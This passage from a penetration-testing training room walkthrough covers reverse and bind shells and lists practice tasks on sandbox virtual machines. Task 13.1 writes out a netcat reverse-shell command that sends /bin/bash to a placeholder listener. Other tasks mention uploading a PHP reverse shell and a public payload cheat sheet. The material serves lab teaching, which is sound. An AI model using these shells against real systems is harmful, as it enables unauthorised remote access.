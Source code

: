 <br>
<br>

<p><strong>The important take away from this task:</strong></p>
<p>Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.</p>

> 12.1 - <em>Read the above information.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>


<h2>Task 13 - Practice and Examples</h2>
<br>

<p>This room contained a lot of information, and gave you little opportunity to put it into practice throughout. The following two tasks contain virtual machines (one Ubuntu 18.04 server and one Windows server), each configured with a simple webserver with which you can upload and activate shells. This is a sandbox environment, so there will be no filters to bypass. Login credentials and instructions for each will also be given, should you wish to log in to practice with netcat, socat or meterpreter shells.<br>

The remainder of this task will consist of shell examples for you to try out on the practice boxes.</p>

> 13.1 - <em>Try uploading a webshell to the Linux box, then use the command: <code>nc <LOCAL-IP> <PORT> -e /bin/bash</code> to send a reverse shell back to a waiting listener on your own machine.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.2 - <em>Navigate to <code>/usr/share/webshells/php/php-reverse-shell.php</code> in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.3 - <em>Log into the Linux machine over SSH using the credentials in task 14. Use the techniques in Task 8 to experiment with bind and reverse netcat shells.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.4 - <em>Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.5 - <em>Look through <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">Payloads all the Things</a> and try some of the other reverse shell techniques. Try to analyse them and see why they work.</em>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>

> 13.6 - <em>Switch to the Windows VM. Try uploading and activating the <code>php-reverse-shell</code>. Does this work?</em><br>
>> <code><strong>No answer needed</strong></code><br>
<p><br></p>
